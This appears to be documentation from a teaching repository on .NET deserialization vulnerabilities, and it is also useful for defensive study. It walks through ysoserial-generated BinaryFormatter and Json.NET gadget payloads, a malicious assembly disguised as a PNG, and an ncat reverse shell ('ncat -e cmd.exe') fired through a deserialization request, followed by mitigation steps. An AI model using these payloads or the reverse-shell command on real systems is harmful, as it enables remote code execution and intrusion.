If docker reports that the service is not started when executing docker commands in Ubuntu, like listing all containers:

``` bash
sudo docker ps -a
```

Then, use the following to start the docker service:

``` bash
sudo systemctl restart snap.docker.dockerd.service
```

## `docs/JuiceShop/zed-attack-proxy.md`

_Blob `4a105f52ab2b`, 3044 bytes, at commit `a0e5ce348f94`._

# ~~OWASP~~ Zed Attack Proxy (ZAP)

Formerly, ZAP was owned and maintained by OWASP. It has since become part of the [Software Security Project](https://softwaresecurityproject.org/).

[ZAP Funding and the Open Source Fellowship](https://www.zaproxy.org/blog/2024-03-13-zap-funding-and-the-open-source-fellowship/)

1. If the Java Runtime environment is not already installed. Download it from [https://www.java.com/en/download/](https://www.java.com/en/download/). If Maltego is already installed, then it is already available. See the Maltego Java Config Windows desktop application for the location of the JRE used by Maltego.

1. Download the Windows 64-bit OWASP ZAP installer at [https://www.zaproxy.org/download/](https://www.zaproxy.org/download/).

1. Open Chrome or your preferred browser.

1. Add _FoxyProxy Basic_ browser add-in for Chrome or your preferred browser.

1. Launch _FoxyProxy Basic_.

    

1. Select Options.

    

1. Add a proxy with the following settings and click _Save_.  
  
    | Setting  | Value | Description |
    | --- | --- | --- |
    | Title | ZAP | Name of the proxy |
    | Hostname | 127.0.0.1 | Local host |
    | Port | 8081 | Proxy for ZAP |

    

1. Chrome bypasses the proxy when navigating to `localhost`. To avoid this, navigate to the Options tab and add `<-loopback>` to the Global Exclude text box and Save.

    

1. Enable the ZAP Proxy. Browsing any non-local site will result in a "No Internet" connection error until ZAP is started and configured for port 8081. Select _Disable_ when done with ZAP.

    

1. Open Zap and navigate to Tools | Options. In the list of options, select  Network | Local Servers/Proxies. Change the port to 8081.

    

1. Navigate to Network | Server Certificates. Click _View_.

    

1. Click _Install Certificate_.

    

1. Leave _Current User_ selected and click _Next_.

1. Select _Place all certificates in the following store_, click _Browse_ and select the _Trusted Certificate Authorities_ store. Click _Next_.

    

1. Click _Finish_. The browser using Foxy Proxy may need to be restarted for the certificate to take effect.

1. Navigate to [http://zap/](http://zap/) on the configured browser. This documentation page is a launching point into tutorials and background about the tool.

1. In ZAP, select Manage Add-Ons in the tool bar.

    

1. Navigate to the Marketplace tab. Select and install the following Add-Ons:

    - FuzzDb
    - SVN Digger Files

## `docs/index.md`

_Blob `25b9ce8d3e64`, 2444 bytes, at commit `a0e5ce348f94`._

# Introduction

This repo explores .NET Framework and .NET serialization vulnerabilities. This documentation also includes instructions for configuring vulnerable API test environments.

[Juice Shop Vulnerabilities](https://github.com/johniwasz/rce-serialization-dotnet/blob/a0e5ce348f945d4ede3c1cbd3336db0dab6388e2/docs/JuiceShop/JuiceShop.md)  
[Serialization Vulnerabilities](https://github.com/johniwasz/rce-serialization-dotnet/blob/a0e5ce348f945d4ede3c1cbd3336db0dab6388e2/docs/serialization/serialization.md)

Serialization vulnerabilities and this documentation is maintained on Github at:

[rce-serialization-dotnet](https://github.com/johniwasz/rce-serialization-dotnet)

## API Test Environments

Vulnerable API, GraphQL, and Website hosts can be used to build an vulnerability testing environment. OWASP maintains a list of vulnerable test projects at [OWASP Vulnerable Web Applications Directory](https://owasp.org/www-project-vulnerable-web-applications-directory/).

One of the most popular and maintained externally available vulnerable sites are:

| Site | Owner |
| --- | --- |
| [Gin and Juice Shop](https://ginandjuice.shop/)  | PortSwigger  |
| [OWASP Juice Shop](https://juice-shop.herokuapp.com/#/)  | OWASP |
| [Hack This Site](https://www.hackthissite.org/)| Hack This Site staff |

## Other Vulnerable C# Projects

[WebGoat.NET](https://github.com/jerryhoff/WebGoat.NET)  
[Damn Vulnerable C# Application (API)](https://github.com/appsecco/dvcsharp-api)

### Install and Run the crAPI

Use these steps to install and run the [Completely Ridiculous API](https://github.com/OWASP/crAPI). This surfaces the [OWASP Top 10 API Security Risks](https://owasp.org/API-Security/editions/2023/en/0x11-t10/).  

1. Open an Ubuntu shell from a DOS or Powershell terminal:

    ``` bat
    wsl
    ```

1. Install the crAPI docker containers from an Ubuntu terminal:

    ``` bash
    curl -o docker-compose.yml https://raw.githubusercontent.com/OWASP/crAPI/main/deploy/docker/docker-compose.yml

    sudo docker-compose pull
    ```

1. Launch the crAPI docker containers

    ``` bash
    sudo docker-compose -f docker-compose.yml --compatibility up -d
    ```

### Install and Run the Damn Vulnerable GraphQL

GraphQL is increasing in popularity and is in use at Facebook, Netflix, IBM, AWS, and Azure.

1. Open an Ubuntu shell from a DOS or Powershell terminal:

    ``` bat
    wsl
    ```

1. Install the Damn Vulnerable GraphQL container:

    ``` bash
    sudo docker pull dolevf/dvga
    ```

1. Launch the Damn Vulnerable GraphQL container:

    ``` bash
    sudo docker run -t -p 5013:5013 -e WEB_HOST=0.0.0.0 dolevf/dvga
    ```

## `docs/serialization/BinarySerialization.md`

_Blob `7933451b3c07`, 12648 bytes, at commit `a0e5ce348f94`._

# Binary Serialization Vulnerability

The [BinaryFormatter](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.formatters.binary.binaryformatter?view=net-8.0&?WT.mc_id=MVP_337682) is present in .NET Framework, .NET Core[^1], and .NET 5-8. Microsoft released an extensive statement about the dangers of using the BinaryFormatter here:

[BinaryFormatter Security Guide](https://learn.microsoft.com/en-us/dotnet/standard/serialization/binaryformatter-security-guide?WT.mc_id=MVP_337682)

[^1]: Binary Formatter was removed in .NET Core 1.0, but reappeared in .NET Core 1.1 and onward.

On Feb. 9th, 2024, Microsoft announced the BinaryFormatter is being removed from .NET 9:

[Announcement: BinaryFormatter is being removed in .NET 9](https://github.com/dotnet/runtime/issues/98245)

## Solution Review

1. Open the src/01-BinaryFormatterVulnerabilties/01-BinaryFormatterVulnerabilties.sln in your preferred IDE (Visual Studio or Visual Studio Code).

1. Open the SerializationTests.cs file in the TodoApi.Tests project and observe the `LaunchCalc` method.

    ``` cs
    [TestMethod]
    public void LaunchCalc()
    {
        // ysoserial -f BinaryFormatter -g ClaimsPrincipal -o base64 -c "calc"
        string maliciousString = "AAEA...UFDZ3M9Cw==";

        byte[] buffer = Convert.FromBase64String(maliciousString);

        using (var stream = new MemoryStream(buffer))
        {
            BinaryFormatter binaryformatter = new BinaryFormatter();
            object badObj = binaryformatter.Deserialize(stream);
        }
    }
    ```

    The malicious string was generated using:

    ``` bat
    ysoserial -f BinaryFormatter -g ClaimsPrincipal -o base64 -c "calc"
    ```

    | Parameter | Description |
    | --- | --- |
    | -f BinaryFormatter | The serializer and format |
    | -g ClaimsPrincipal | The gadget chain (exploitable class) |
    | -o base64 |  The output format (raw\|base64\|raw-urlencode\|base64-urlencode\|hex). Default: raw |
    | -c "calc" | The command to be executed |

    This uses a vulnerability in the constructor of the `ClaimsPrincipal` in .NET Framework 4.8 to launch `calc.exe`. Running this test launches `calc.exe` on Windows and generates a serialization exception.

1. Open the MetadataItem.cs file in the Todo.API project Models folder. The `BinaryJsonConverter` is used to deserialize the request.

    ``` csharp
    public class MetadataItem
    {
        public string Name { get; set; }

        [JsonConverter(typeof(BinaryJsonConverter))]
        public object Data { get; set; }
    }
    ```

1. Open the BinaryJsonConverter.cs in the root of the TodoApi project. The vulnerability occurs on Deserialization.

    ``` csharp
    using (var stream = new MemoryStream(buffer))
    {
        BinaryFormatter binaryformatter = new BinaryFormatter();

        // This is the vulnerable line of code
        convertedObj = binaryformatter.Deserialize(stream);
    }
    ```

## Reproducing the Exploit : Launch Calc

1. Run the solution in Debug mode.

1. Open the requests.http file in the Solution Items directory.

1. Send the requests in order with the following labels:

    | Label | Result |
    | --- | --- |
    | list all items | Returns an empty array. |
    | create a new task | _walk dog_ task is added. Observe `isComplete` is `false` |
    | update an existing task | sets `isComplete` property on _walk dog_ task to `true` |
    | send benign binary data | creates _process datatable_ task with a serialized data table in metadata |
    | list all items | Returns _walk dog_ and _process datatable_ tasks |

    These requests do not result in any errors or exploits. The last request returns:

    ``` json
    [
        {
            "id": 0,
            "name": "walk dog",
            "isComplete": true,
            "metadata": null
        },
        {
            "id": 1,
            "name": "process datatable",
            "isComplete": false,
            "metadata": 
            [
                {
                    "name": "datatable",
                    "data": "AAEAAAD/////AQAAAAA...//Cw=="
                }
            ]
        }
    ]
    ```

1. Send the request labeled `send malicious binary data to launch calc.exe`. Observe that this launches the Calculator app on Windows. Deserialization raises an error and so the `data` property is null.

    ``` json
    {
        "id": 3,
        "name": "launch calc",
        "isComplete": false,
        "metadata": 
        [
            {
            "name": "calc",
            "data": null
            }
        ]
    }
    ```

## Opening a Reverse Shell

Reverse shells allow an attacker to open a command shell on a vulnerable machine from the attacker's machine.In this exercise, we will open a reverse shell from Ubuntu running on WSL (Windows Subsystem for Linux) to the Windows host.

This is a two stage process starting with launching a listener from the attacker. Then executing a command from the vulnerable target to open a port and establish access to the target's shell from the attacker.

This uses [`ncat`](https://nmap.org/ncat/guide/index.html), a versatile networking tool with extensive command line options for opening connections.

> **Ncat may not be permitted in a work environment as it is often used for penetration testing and attacking. Executing network scans without permission may trigger security alerts and prompt a response from the organization's Security Operations Center (SOC), potentially leading to disciplinary actions or legal consequences. Therefore, it is crucial to always obtain permission and follow established protocols before utilizing tools like Ncat in a professional setting.**

### Validating a Reverse Shell

This exercise walks through opening a reverse shell manually before adding more complexity. The next exercise opens a reverse shell by launching ncat from a malicious payload.



#### Preparing for the Attack

1. Open a Windows Command or Powershell terminal and install [nmap](https://insecure.org/) if it is not already present:

    ``` bat
    winget install Insecure.Nmap
    ```

1. Open an Ubuntu shell.

    ``` bat
    wsl
    ```

1. Get the ip address of the Ubuntu instance.

    ``` bash
    ifconfig
    ```  

    Note the IP address associated with the eth0 network interface. This example uses `172.30.181.236`. This will be used later to open the reverse shell from the target.

    If `ifconfig` is not available, then install it using:

    ``` bash
    sudo apt install net-tools
    ```

1. Start the listener on port 2222.

    ``` bash
    nc -vnlp 2222
    ```

    The options used here are:

    | parameter | description |
    | --- | --- |
    | -v | Set verbosity level (can be used several times) |  
    | -n | Do not resolve hostnames via DNS |  
    | -l | Bind and listen for incoming connections |  
    | -p | Specify source port to use |

The listener is now started on the attacking machine and ready to receive a connection from the target.

#### Validating the Connection

Before executing the attack, verify that it will work from the target machine by directly opening the reverse shell. A real-world attacker would not have this option. Since this is a test environment, it can be used to verify the attack before adding more complexity with ysoserial.net and a REST request.

1. Open a Windows Command or Powershell terminal and run:

    ``` bat
    ncat -e cmd.exe -nv 172.30.181.236 2222
    ```

    Use the IP address of the Ubuntu instance from the prior section if it's differs from the example. The `-e` parameter executes `cmd.exe` when the connection is established.

    Note the command line as this is used in the next exercise.

1. Return to the Ubuntu instance running the listener. Observe that a Windows command prompt is now available.

    ``` bat
    username@hostname:/mnt/c/Users/user$ nc -vnlp 2222
    Listening on 0.0.0.0 2222
    Connection received on 172.30.176.1 13502
    Microsoft Windows [Version 10.0.22631.3296]
    (c) Microsoft Corporation. All rights reserved.
    C:\Windows\System32>
    ```

1. Run a few commands to validate the connection.

    ``` bat
    dir
    whoami
    hostname
    ipconfig
    ```

### Opening a Reverse Shell from a Malicious Payload

This exercise creates and sends a message which exploits `BinaryFormatter` deserialization to open a reverse shell.

#### Prepare the Payload

If `ysoserial.exe` is not yet available, then install it using the steps here: [Install Ysoserial](https://github.com/johniwasz/rce-serialization-dotnet/blob/a0e5ce348f945d4ede3c1cbd3336db0dab6388e2/docs/serialization/serialization#ysoserialnet).

1. Open a Windows Command or Powershell terminal.

1. Generate the serialized `BinaryFormatter` payload that executes `ncat`. Use the command line that successfully opened a reverse shell in the prior exercise. Using the IP address of the Ubuntu instance in your environment which may be different than the example below.

    ``` bat
    ysoserial -f BinaryFormatter -g ClaimsPrincipal -o base64 -c "ncat -e cmd.exe -nv 172.30.181.236 2222"
    ```

1. Copy the generated payload to the requests.http file into the `data` property in the last request.

    ``` json
    POST https://{{hostname}}:{{port}}/api/TodoItems HTTP/1.1
    content-type: application/json

    {
    "name": "launch ncat",
    "metadata":
        [
            {
            "name": "launch ncat",
            "data": "<PASTE HERE>"
            }
        ]
    }
    ```

#### Launch the Attack

The sequence in the prior exercise changes a bit. In this scenario, the REST client could be from any machine with access to the REST endpoint. Rather than launching `ncat` manually, `ncat` runs when the payload is deserialized.



1. Open an Ubuntu shell.

    ``` bat
    wsl
    ```

1. Start the listener on port 2222.

    ``` bash
    nc -vnlp 2222
    ```

1. Launch the TodoAPI from your IDE in Debug Mode.

1. Open requests.http file and send the last request that was updated with your payload.

1. Navigate to the Ubuntu terminal running the listener on port 2222.

1. Run a few commands to validate the connection.

    ``` bat
    dir
    whoami
    hostname
    ipconfig
    ```

## Mitigating the Vulnerability

Migrating from the BinaryFormatter is not straight-forward as there is no direct replacement. If the BinaryFormatter has been used to persist data in a product or service then a migration strategy is necessary. The [BinaryFormatter Security Guide](https://learn.microsoft.com/en-us/dotnet/standard/serialization/binaryformatter-security-guide?WT.mc_id=MVP_337682) recommends using:

- [XmlSerializer](https://learn.microsoft.com/en-us/dotnet/api/system.xml.serialization.xmlserializer?view=net-8.0&WT.mc_id=MVP_337682) and [DataContractSerializer](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.datacontractserializer?view=net-8.0&WT.mc_id=MVP_337682) to serialize object graphs into and from XML. Do not confuse [DataContractSerializer](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.datacontractserializer?view=net-8.0&WT.mc_id=MVP_337682) with [NetDataContractSerializer](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.netdatacontractserializer?view=netframework-4.8.1?WT.mc_id=MVP_337682).
- [BinaryReader](https://learn.microsoft.com/en-us/dotnet/api/system.io.binaryreader?view=net-8.0&WT.mc_id=MVP_337682) and [BinaryWriter](https://learn.microsoft.com/en-us/dotnet/api/system.io.binarywriter?view=net-8.0&WT.mc_id=MVP_337682) for XML and JSON.
- The [System.Text.Json](https://learn.microsoft.com/en-us/dotnet/api/system.text.json?view=net-8.0&WT.mc_id=MVP_337682) APIs to serialize object graphs into JSON.

Other alternatives include:

- [MessagePack](https://msgpack.org/) is a fast binary serializer.
- [ProtoBuf](https://protobuf.dev/getting-started/csharptutorial/). This is used by some Microsoft teams[^2].

[^2]: See Preparing for migration in [BinaryFormatter is being removed in .NET 9 #293](https://github.com/dotnet/announcements/issues/293)

## `docs/serialization/JSONSerialization.md`

_Blob `4e6ae5bf7764`, 7484 bytes, at commit `a0e5ce348f94`._

# JSON Serialization Vulnerability

The [Friday the 13th](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf) exploit uses the `TypeNameHandling` property to manipulate native .NET Framework class to launch a malicious process on the host environment.

The exercises in this section use the [src\02-Framework-JsonVulnerabilties\02-Framework-JsonVulnerabilties.sln](https://github.com/johniwasz/rce-serialization-dotnet/tree/main/src/02-Framework-JsonVulnerabilties). Please load the solution file in Visual Studio.

The `Register` method in [WebConfig.cs](https://github.com/johniwasz/rce-serialization-dotnet/blob/main/src/02-Framework-JsonVulnerabilties/TodoApi/App_Start/WebApiConfig.cs) in 02-Framework-JsonVulnerabilities/Todo/App_Start sets global serialization options.

``` csharp
public static void Register(HttpConfiguration config)
{
    // This introduces a security risk.
    config.Formatters.JsonFormatter.SerializerSettings.TypeNameHandling =
            Newtonsoft.Json.TypeNameHandling.All;

    config.Formatters.JsonFormatter.SerializerSettings.ContractResolver =
        new Newtonsoft.Json.Serialization.CamelCasePropertyNamesContractResolver();
```

Setting `TypeNameHandling` to anything other than `TypeNameHandling.None` exposes the vulnerability through at $type property that defines the type to deserialize. Running the `SerializeFido` test in the JsonVulnerabilities.Test project demonstrates this by serializing:

``` csharp
Dog fido = new Dog
{
    Name = "Fido",
    Breed = "Golden Retriever",
    Owner = "John Doe"
};
```

Which produces:

``` json
{
  "$type": "Todo.Models.Dog, Todo.Models",
  "name": "Fido",
  "breed": "Golden Retriever",
  "owner": "John Doe"
}
```

The `Todo.Models.Dog` class only recognizes string values and cannot be exploited; however, other .NET Framework classes like [`System.Windows.Data.ObjectDataProvider`](https://learn.microsoft.com/en-us/dotnet/api/system.windows.data.objectdataprovider?view=netframework-4.8.1&WT.mc_id=MVP_337682) and [`System.Web.Security.RolePrincipal`](https://learn.microsoft.com/en-us/dotnet/api/system.web.security.roleprincipal?view=netf&WT.mc_id=MVP_337682ramework-4.8.1) expose a remote code execution vulnerability.

Ysoserial.net includes c

Use ysoserial.exe to create a vulnerable payload using:

``` powershell
ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc"
```

| Parameter | Description |
| --- | --- |
| -f Json.Net | The serializer and format |
| -g ObjectDataProvider | The gadget chain (exploitable class) |
| -o raw |  The output format (raw\|base64\|raw-urlencode\|base64-urlencode\|hex). Default: raw |
| -c "calc" | The command to be executed |

This produces:

``` json
{
  "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
  "MethodName": "Start",
  "MethodParameters": {
    "$type": "System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
    "$values": [ "cmd", "/ccalc" ]
  },
  "ObjectInstance": { "$type": "System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089" }
}
```

The `ObjectDataProvider` uses `System.Diagnostics.Process` to pass the command to the `Start` method.

Use the JsonVulnerabilities.Test project `LaunchObjectDataProviderExploit` test case to observe the exploit in isolation. Note that this does not raise an exception and that calc.exe runs.

Alternatively, generate a message to run calc.exe using the `RolePrincipal` with:

``` powershell
ysoserial.exe -f Json.Net -g RolePrincipal -o raw -c "calc"
```

This generates:

``` json
{
  "$type": "System.Web.Security.RolePrincipal, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a",
  "System.Security.ClaimsPrincipal.Identities": "AAEAAAD////...lkZXI+Cw=="
}
```

The message is serialization serialized to JSON and value of `System.Security.ClaimsPrincipal.Identities` is base64 encoded. The `RolePrincipal` uses the `BinaryFormatter` to deserialize after the JSON message is deserialized. Running the `LaunchRolePrincipalExploit` test case runs this exploit in isolation. Note that an exception is generated but calc.exe is still launched.

## Reproducing the Exploit : Launch Calc

1. Run the solution in Debug mode.

1. Open the requests.http file in the Solution Items directory.

1. Send the requests in order with the following labels:

    | Label | Result |
    | --- | --- |
    | list all items | Returns an empty array. |
    | create a new task | _walk dog_ task is added. Observe `isComplete` is `false` |
    | update an existing task | sets `isComplete` property on _walk dog_ task to `true` |
    | send benign binary data | creates a take named _walk fido_ and metadata that includes details about Fido |
    | list all items | Returns _walk dog_ and _walk fido_ tasks |

    These requests do not result in any errors or exploits. The last request returns:

    ``` json
    {
    "$type": "System.Collections.Generic.SynchronizedCollection`1[[Todo.Models.TodoItem, Todo.Models]], System.ServiceModel",
    "$values": 
        [
            {
                "$type": "Todo.Models.TodoItem, Todo.Models",
                "id": 0,
                "name": "walk dog",
                "isComplete": true,
                "metadata": null
            },
            {
                "$type": "Todo.Models.TodoItem, Todo.Models",
                "id": 1,
                "name": "walk fido",
                "isComplete": false,
                "metadata": 
                {
                    "$type": "System.Collections.Generic.Dictionary`2[[System.String, mscorlib],[System.Object, mscorlib]], mscorlib",
                    "fido": 
                    {
                        "$type": "Todo.Models.Dog, Todo.Models",
                        "name": "Fido",
                        "breed": "Golden Retriever",
                        "owner": "John Doe"
                    }
                }
            }
        ]
    }
    ```

1. Send the request labeled `send malicious ObjectDataProvider gadget`. Observe that this launches the Calculator app on Windows.

    ``` json
    {
    "name": "pwn with ObjectDataProvider",
    "metadata" : 
        {
            "fido": 
            {
                "$type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
                "MethodName":"Start",
                "MethodParameters":{
                    "$type":"System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
                    "$values":["cmd","/ccalc"]
                },
                "ObjectInstance":{"$type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"}
            }
        }
    }
    ```

1. Send the request labeled `send malicious RolePrincipal gadget`. Observe that this launches the Calculator app on Windows.

    ``` json
    {
    "name": "pwn with RolePrincipal",
    "metadata" : 
    {
        "fido": 
        {
        "$type": "System.Web.Security.RolePrincipal, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a",
        "System.Security.ClaimsPrincipal.Identities": "AAEAAAD...lkZXI+Cw=="
        }
    }
    }
    ```

## `docs/serialization/NET8JSON.md`

_Blob `e2c57e573a4e`, 7886 bytes, at commit `a0e5ce348f94`._

# .NET 8 Json.NET Serialization Vulnerability

Exploiting JSON serialization vulnerabilities in .NET is more challenging than in the .NET Framework. The .NET Framework gadget chains exploited by [ysoserial.net](https://github.com/pwntester/ysoserial.net) have been remediated in .NET. Therefore, this exercise uses a custom assembly to create a gadget chain.

This exploit requires setting _TypeNameHandling_ to _TypeNameHandling.All_. System.Text.Json does not natively allow type names to be included in serialized messages and is recommended. Further, with .NET 6+ it is not possible to override the default JSON serializer from System.Text.Json when using minimal APIs. See [Minimal APIs quick reference](https://learn.microsoft.com/en-us/aspnet/core/fundamentals/minimal-apis?view=aspnetcore-8.0&WT.mc_id=MVP_337682#configure-json-deserialization-options-for-body-binding).

The code to run and reproduce this vulnerability is located in the scr/03-NET8-JsonVulnerabilities/unsecured folder in this repository and can be found at <https://github.com/johniwasz/rce-serialization-dotnet/tree/main/src/03-.NET8-JsonVulnerabilties/unsecured>.

``` csharp
builder.Services.AddControllers().AddNewtonsoftJson(
    options =>
    {
        options.SerializerSettings.TypeNameHandling = TypeNameHandling.All;
        options.SerializerSettings.ReferenceLoopHandling = ReferenceLoopHandling.Ignore;
    });
```

The MaliciousAssembly project includes a property that launches a process using the value of the property:

``` csharp
using System.Diagnostics;
. . .
public string ProcessLaunch
{
    get
    {
        return processName;
    }
    set
    {
        processName = value;
        Process.Start(value);
    }
}
```

The build process copies the MaliciousAssembly to the bin directory of the Todo API as _someimage.png_. This simulates an insecure file upload process. Which can be exploited through the _Metadata_ property of the _TodoItem_.

``` csharp
public class TodoItem
{
    public long Id { get; set; }
    public string? Name { get; set; }
    public bool IsComplete { get; set; }

    public Dictionary<string, object>? Metadata { get; set;}
}

```

Locate the requests.http file in the `Solution Items` folder.

This can be exploited using the following message:

``` json
# Test if a file can be read
POST https://{{hostname}}:{{port}}/api/TodoItems HTTP/1.1
{
  "name": "walk dog1",
  "isComplete": true,
  "metadata":
    {
        "data2": 
        {
          "$type": "System.IO.FileInfo, System.IO.FileSystem",
          "fileName": "rce-test.txt"
        }
    }
}
```

Note that the request generates an error since the `System.IO.FileInfo' class is not serializable; however, the class was instantiated which confirms a serialization vulnerability.

## Load the malicious file

The first REST API call loads the malicious file using:

``` json
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "load assembly",
  "isComplete": true,
  "metadata":
    {
        "data2":
        {
          "$type":"System.Configuration.Install.AssemblyInstaller, 
            System.Configuration.Install",
          "Path":"someimage.png"}
    }
}
```

The _Path_ is local; however, in a production environment, it could be loaded from a temporary directory or another local directory.

## Invoke the Malicious Property

Now that the Assembly is in the AppDomain, the ProcessLaunch property can be invoked:

``` json
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "launch calc",
  "isComplete": true,
  "metadata":
    {
        "launchdata":  
           { "$type":"MaliciousAssembly.ProcessStarter, MaliciousAssembly",
             "ProcessLaunch":"calc.exe" 
            }
    }
}
```

These calls are available in the _requests.http_ file. Running these examples in Visual Studio Code requires the [REST Client](https://marketplace.visualstudio.com/items?itemName=humao.rest-client) extension.

## Remediating the Vulnerability

The next section covers how to close the security vulnerabilities exposed in the prior exercise.

### Scanning for Github Security Advisories

Scan the solution for known vulnerabilities using `dotnet`.

1. Navigate to the solution folder in a command prompt.

1. Execute the following and observe the results.

    ``` bat
    dotnet list package --vulnerable
    ```

1. Execute the a check for transitive dependencies and observe the results.

    ``` bat
    dotnet list package --vulnerable --include-transitive
    ```

Update any vulnerable Nuget packages that are directly referenced. Investigate and update vulnerable transitive dependencies if possible.

For more information, please see:
[How to Scan NuGet Packages for Security Vulnerabilities](https://devblogs.microsoft.com/nuget/how-to-scan-nuget-packages-for-security-vulnerabilities/?WT.mc_id=MVP_337682)

### Code Analysis Rules

Code Analysis Rules can be used to identify common security vulnerabilities and other issues. For more information, see [roslyn-analyzers](https://github.com/dotnet/roslyn-analyzers#microsoftcodeanalysisnetanalyzers). Security rules are disabled by default. For a comprehensive list of security rules see [Security Warnings](https://learn.microsoft.com/en-us/dotnet/fundamentals/code-analysis/quality-rules/security-warnings?WT.mc_id=MVP_337682).

1. Install the latest released [Microsoft.CodeAnalysis.NetAnalyzers](https://www.nuget.org/packages/Microsoft.CodeAnalysis.NetAnalyzers) Nuget package in the TodoApi.

1. Open File Explorer and navigate to the .nuget installation directory and review the folders under:

    ``` bat
    %USERPROFILE%\.nuget\packages\microsoft.codeanalysis.netanalyzers\8.0.0\editorconfig
    ```

1. Copy the `.editorconfig` file in the `AllRulesDefault` folder to the solution folder. This is the same folder that contains the `.NET8-JsonVulnerabilities.sln` file. The `SecurityRulesEnabled\.editorconfig` folder includes security rules set to warning and all others set to none. Security rules are disabled by default.

1. In Visual Studio, right-click on the `Solution Items` folder and select `Add | Existing Item...`. Add the `.editorconfig` file from the solution root directory.

1. Rebuild and observe the Warning messages returned in the Error List.

    

1. Warnings alert us to the issue, but they don't block the build. To prevent the Newtonsoft Json.NET security vulnerability, change the severity level to Error. Double-click the `.editorconfig` file, select the `Analyzers` tab. Search for `TypeName`. This is enough to find the `TypeNameResolver`. Change the Warning to Error. Save the `.editorconfig`.

    

1. Attempt to rebuild the solution. Observe that rebuilding fails with four errors.

1. Resolve the TypeNameResolver error in the Todo API project by commenting out line 11 in Program.cs in the Todo API project which applies the `TypeNameHandling.All` value. Observe that three security code analysis errors remain.

    ``` csharp
    builder.Services.AddControllers().AddNewtonsoftJson(
    options =>
    {
        // options.SerializerSettings.TypeNameHandling = TypeNameHandling.All;
        options.SerializerSettings.ReferenceLoopHandling = ReferenceLoopHandling.Ignore;
    });
    ```

1. In the JsonDeserialization.cs file in the RCESerialization.Test project, apply the following attribute to the test class. Observe that no code analysis errors remain.

    ```csharp
    namespace SerializationRCE
    {

    [System.Diagnostics.CodeAnalysis.SuppressMessage("Security", "CA2326:Do not use TypeNameHandling values other than None", Justification = "Test class. This is not production code.")]
    public class JsonDeserialization
    ```

## `docs/serialization/serialization.md`

_Blob `7cdd921c5c33`, 6166 bytes, at commit `a0e5ce348f94`._

# Serialization Vulnerabilities

Serialization vulnerabilities are not just limited to the `BinaryFormatter`. Any message that includes the type to deserialize poses a threat irrespective of method of serialization. [Newtonsoft.Json](https://www.newtonsoft.com/) and [MessagePack](https://msgpack.org/)[^1] are also susceptible.

[^1]: MessagePack includes [Typeless deserialization](https://github.com/MessagePack-CSharp/MessagePack-CSharp?tab=readme-ov-file#typeless) which embeds the type to deserialize in the message.

Deserializing messages sent from an untrusted source introduces risk. Compromised messages processed by unsafe deserializers could result in an error at best or a remote code execute exploit at worst. OWASP defines this as:

>Data which is untrusted cannot be trusted to be well formed. Malformed data or unexpected data could be used to abuse application logic, deny service, or execute arbitrary code, when deserialized[^2].

[^2]: [Deserialization of Untrusted Data](https://owasp.org/www-community/vulnerabilities/Deserialization_of_untrusted_data?WT.mc_id=MVP_337682)

This project demonstrates serialization vulnerabilities using Json.NET and the BinaryFormatter.

The Todo project is based on the starter tutorial available here:

[Create a controller based API](https://learn.microsoft.com/en-us/aspnet/core/tutorials/first-web-api?view=aspnetcore-7.0&tabs=visual-studio&WT.mc_id=MVP_337682)

These examples were assembled based on serialization vulnerabilities highlighted in the [ysoserial.net](https://github.com/pwntester/ysoserial.net) git repo.

## Deserialization and Gadget Chains

Most serialization exploits utilize two components.

- Type Specification. Messages that define the type to deserialize allow the caller use a vulnerable type.
- Gadget. An exploitable type that includes a capability to launch a command specified in the message.

Exploitable types are referred to as **gadgets**. These allow malicious code to be launched using a constructor, property, method, or a code snippet. **Gadgets** can be a native class or injected into the application. These may not be obvious if a class has a deeply nested hierarchy. In C#, classes that include `object` types or generics can be suspectable. For example, many public APIs include a capability to store metadata or arbitrary data that's captured with a `Dictionary<string, object>`. This opens a door for potential exploitation.

## Prerequisites

Install [Visual Studio 2022](https://learn.microsoft.com/en-us/visualstudio/install/use-command-line-parameters-to-install-visual-studio?view=vs-2022&WT.mc_id=MVP_337682).

Install .NET Framework 4.8.1:

``` bat
winget install Microsoft.DotNet.Framework.DeveloperPack_4 -v 4.8.1
```

Install .NET 8:

``` bat
winget install Microsoft.DotNet.SDK.8
```

Install Git:

``` bat
winget install Git.Git
```

### Ysoserial.net

[Ysoserial.net](https://github.com/pwntester/ysoserial.net) creates malicious serialized payloads for a variety of libraries including [Json.NET](https://www.newtonsoft.com/json), MessagePack, and BinaryFormatter.

The payloads cannot be programmatically generated using these serializers with native implementations. Ysoserial.net manipulates the serialized message to inject a malicious payload. Deserialization results in a runtime exception; however, a remote code execution exploit is triggered.

1. Enable .NET 3.5 on Windows using the instructions here: [Enable .NET 3.5 on Windows](https://learn.microsoft.com/en-us/dotnet/framework/install/dotnet-35-windows?WT.mc_id=MVP_337682). This is required to build ysoserial.net. It exploits vulnerabilities in prior versions of the .NET Framework.

1. Open a command prompt and navigate to:

    ``` bat
    %userprofile%\source\repos
    ```

1. Clone the ysoserial.net repo.

    ``` bat
    git clone https://github.com/pwntester/ysoserial.net.git
    ```

1. Open the solution in Visual Studio and build.

1. Navigate to the debug directory in a command prompt.

    ``` bat
